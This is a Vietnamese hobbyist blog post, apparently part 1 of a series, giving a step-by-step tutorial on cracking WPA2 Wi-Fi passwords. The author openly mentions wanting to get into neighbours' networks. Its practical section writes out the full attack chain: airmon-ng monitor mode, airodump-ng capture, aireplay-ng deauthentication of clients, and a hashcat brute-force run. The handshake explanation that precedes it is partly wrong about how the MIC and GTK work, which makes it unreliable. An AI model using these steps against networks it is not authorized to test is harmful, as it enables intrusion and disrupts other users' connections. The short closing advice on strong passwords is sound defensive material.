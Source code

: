 # Nghịch vài trò "hack" Wifi - Phần 1

Như đã đề cập ở blog trước, thời gian đầu mình sử dụng Linux với mong ước là xử được mấy cái wifi nhà hàng xóm.
Sau quá trình trên, mình cũng có một chút kinh nghiệm, cũng như một số tip. Trong series này, mình sẽ tổng hợp lại 1 số kiến thức cũng như 1 số tip mình tìm hiểu được. Biết đâu lại có thêm một trò vui vui.

# Tổng quan

Hầu hết các modem wifi trên thị trường hiện nay được sử dụng có 3 chuẩn bảo mật chính WPA, WPA2, WEP. Trong đó WPA và WEP là 2 chuẩn bảo mật yếu rất dễ tấn công nên dần được loại bỏ, do đó chuẩn bảo mật phổ biến hiện nay là WPA2. WPA2 là 1 chuẩn bảo mật hiện đại, sử dụng những công nghệ tiên tiến nhưng không có nghĩa là nó an toàn 100%. Theo hiểu biết của mình, hiện tại có 3 cách để hack như sau:

- Hack bằng từ điển - Lợi dụng sơ hở của quá trình xác thực bắt tay 4 bước trong WPA2
- Hack tấn công mã pin - Lợi dụng sơ hở WPS
- Hack bằng Phishing - Lợi dụng sự mất cảnh giác của người dùng đánh cắp password

# Hack bằng từ điển

## Giới thiệu

Cách này nghe cái tên thì cứ nghĩ nó là dạng brute-force trâu bò, ờ thì đúng thế thật, nhưng bên trong nó còn có rất nhiều vấn đề để nói. Trong blog này, mình sẽ trình bày và thử nghiệm kĩ thuật hack bằng từ điển.

## 4-Way Handshake

Trước tiên, chúng ta tìm hiểu quá trình xác thực bắt tay bốn bước của WPA2. Để một Client có thể kết nối với AP (Access Point) phải trả qua quá trình 4 bước như sau:

- Bước 1: AP sẽ tung ra 1 gói tin (ANONCE) ngẫu nhiên đi khắp nơi trong phạm vi phát sóng.
- Bước 2: Client trong phạm vi nhận được ANONCE, kết hợp PSK (Pre-shared Key) tức là mật khẩu wifi (dịch ra chuỗi 256 bit), SNONCE - Một chuỗi sinh ra ngẫu nhiên ở Client, MAC (AP), MAC (Client) tạo ra 1 khóa PTK (Pairwise Transit Key)

$$ PTK = PSK + ANONCE + SNONCE + MAC (AP) + MAC (Client) $$

Sau khi có khóa PTK, Client dùng khóa này để mã hóa chuỗi ANONCE nhận từ AP được chuỗi MIC (Message Integrity Code). Client gửi lên AP chuỗi SNONCE + MIC

- Bước 3: AP sau khi nhận được gói tin thì cũng tính được PTK. AP dùng PTK để giải mã gói MIC, nếu được đúng bằng chuỗi ANONCE ban đầu thì good, Client có đúng mật khẩu rồi đó. Lúc này AP dùng PTK để tạo khóa dùng chung là GTK (Group Temporal Key) rồi gửi lại cho Client.
- Bước 4: Client nhận được GTK thì lưu lại và gửi 1 gói tin ACK được mã hóa bằng GTK và gửi lên cho AP. Từ đó 2 bên giao tiếp với nhau qua GTK.

Giải thích một lúc quá trình này méo hết cả miệng. Nói chung đơn giản là trong 4 bước này, nhìn thì cũng khá chặt chẽ đấy nhưng thực ra có 1 lỗ hổng ở bước thứ 3 tới thứ 4. Khi AP gửi GTK cho Client thì nếu hacker chặn được quá trình này (tức là ăn chặn gói tin để nó không gửi tới Client) thì sau một thời gian AP chờ mỗi không thấy ACK từ Client gửi lên, nó lại gửi lại thêm 1 cái nữa. Như thế nếu bị lost gói GTK thì quá trình xác thực vẫn hoàn thành.
Lợi dụng điểm này, ta can thiệp vào quá trình xác thực và bắt lấy gói GTK, từ đó tìm ra khóa PTK -> mã PSK (mã hash mật khẩu).
Tới đây mới bắt đầu dùng từ điển, chúng ta có 1 danh sách các mật khẩu phổ biến, hoặc vét cạn toàn bộ, hash nó ra và so khớp với mật khẩu. Nếu trùng thì chính là mật khẩu đấy :))

## Thực chiến

Một số thứ cần chuẩn bị:

- [Aircrack-ng](https://www.aircrack-ng.org/doku.php): Tool phổ biến nhất để chuyển chế độ monitor và bắt gói tin
- [Cap2hccapx](https://github.com/hashcat/hashcat-utils): Tool hỗ trợ chuyển đổi file cap thành hccapx
- [Hashcat](https://hashcat.net/hashcat/): Thư viện hỗ trợ giải mã chuỗi hash
- Từ điển: Nếu có từ điển thì sẽ tăng khả năng cao hơn khi dò, nếu không thì hashcat hỗ trợ dò tìm kiểu brute-force.

Mình có tổng hợp 1 list kha khá từ điển, nếu cần có thể ib mình.

Các Tool trên không nhất thiết phải sử dụng Kali Linux mà có thể cài ở bất kì distro nào. Ở đây mình sử dụng Kali Linux do nó cài sẵn nhiều Tool hỗ trợ.
Một vấn đề nữa là card wifi sử dụng phải hỗ trợ chế độ monitor, ở đây mình dùng TP-link WN722N V1.

![card wifi](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/cardwifi.jpg?raw=true)

Đầu tiên, mở terminal, sử dụng lệnh:

```
# airmon-ng
```

![Airmon-ng](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airmon-ng1.png?raw=true)
để kiểm tra tên của card wifi. Ở đây chúng ta tìm thấy card wifi có tên là `wlan0`.

Tắt toàn bộ tiến trình đang sử dụng tới mạng:

```
# airmon-ng check kill
```

![Kill process](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airmon-checkkill.png?raw=true)

Tiếp theo chúng ta bật chế độ monitor lên cho wlan0:

```
# airmon-ng start wlan0
```

![Airmon-ng start](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airmon-start.png?raw=true)

Kiểm tra lại để chắc chắn card wifi đã ở chế độ monitor:

```
# airmon-ng
```

![Airmon-ng](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airmon-ng2.png?raw=true)

Chúng ta đã có 1 monitor là wlan0mon.

Quét tất cả các AP xung quanh:

```
# airodump-ng wlan0mon
```

![Airodump-ng](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airodump-ng.png?raw=true)

Để ý các chỉ số:

- BSSID: Địa chỉ MAC của AP
- #Data: Số dữ liệu đang truyền tải, chọn cái nào càng nhiều càng tốt
- CH: Kênh giao tiếp hiện tại của AP
- ESSID: Tên của AP

Sau khi có thông số trên, ta chọn 1 AP để thực hiện lắng nghe - ở đây mình chọn luôn wifi phòng mình nhé.

```
# airodump-ng wlan0mon --bssid <BSSID> -c <CH> -w <file_output.cap>
```

![Airodump-ng](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airodump-ng-1.png?raw=true)

Sử dụng aireplay-ng để tấn công gửi các dead-auth cho AP với mục đích khiến AP yêu cầu các Client phải gửi lại xác thực - tức là làm lại quá trình bắt tay 4 bước.

```
# iw dev wlan0mon set channel <CH> & aireplay-ng --deauth 20 -a <BSSID> wlan0mon
```

![Send deadauth](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/deadauth.png?raw=true)

Nếu có lỗi Channel, chạy lại câu lệnh phía trên 1 lần nữa.

Sau khi có 1 Client xác thực lại, chúng ta chú ý góc bên phải, có 1 Handshake.
![Found Handshake](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/airodump-bssid.png?raw=true)

Ngừng quá trình lắng nghe bằng Ctrl + C.

Sau khi có file .cap, chúng ta sử dụng cap2hccapx để convert file .cap thành .hccapx phục vụ cho hashcat.

```
# cap2hccapx.bin <file.cap> <file.hccapx>
```

![Convert cap file](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/cap-convert.png?raw=true)

Sau khi có file hccapx, ta có thể giải mã ở bất kì đâu, chọn máy nào mạnh mạnh có card rời chút thì càng tốt. Ở đây mình chọn Google Colab để giải mã nó luôn :) vừa free lại mạnh nữa chứ.
Tại google colab tải file .hccapx lên.
![Google colab](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/colab-file.png?raw=true)

Cài đặt 1 số thứ cần thiết cho hashcat:

```
# !apt install cmake build-essential checkinstall -y > /dev/null && git clone https://github.com/hashcat/hashcat.git > /dev/null && cd hashcat && git submodule update --init && make > /dev/null && make install > /dev/null && cd .. && rm hashcat -r
```

![Install package](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/install.png?raw=true)

Sử dụng lệnh sau để bắt đầu chạy hashcat:

```
# !hashcat -m 2500 -a 3 /content/room_402.hccapx -i --increment-min=8 ?d?d?d?d?d?d?d?d?d
```

![HashCat start](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/hashcat-start.png?raw=true)

-m 2500: Chọn kiểu mã hóa là WPA-EAPOL-PBKDF2
-a 3: Chọn mode tấn công là brute-force
-i --increment-min=8: kích hoạt chế độ tìm kiếm tăng dần với khởi đầu là 8
?d?d?d?d?d?d?: 00000000 -> 999999999

Để tìm hiểu thêm, xem ở: [Hashcat](https://hashcat.net/wiki/doku.php?id=hashcat)
Giờ chỉ có việc ngồi chờ thôi, thời gian nhanh hay chậm tùy thuộc vào kinh nghiệm lựa chọn từ điển cũng như độ khó của mật khẩu.
Và đây là thành quả sau khoảng 5p chờ đợi, mật khẩu nhà mình khá là đơn giản nhỉ.
![HashCat founded](https://github.com/Ducvoccer/blog/blob/main/images/hack-wifi-p1/hashcat-find.png?raw=true)

# Kết

Kĩ thụât hack wifi dựa trên tấn công từ điển là kĩ thuật rất bình thường nhưng vẫn có độ hiểu quả cao, do cách đặt mật khẩu của người Việt còn đơn giản. Do đó để an toàn và chống lại cách hack từ điển, chúng ta nên đặt mật khẩu đủ mạnh, độ dài lớn kết hợp hoa thường số và sử dụng kí tự đặc biệt.
Sang blog tiếp theo, mình sẽ giới thiệu kĩ thuật tiếp theo - lợi dụng WPS.
Mục đích blog để học tập, hãy thận trọng khi làm.
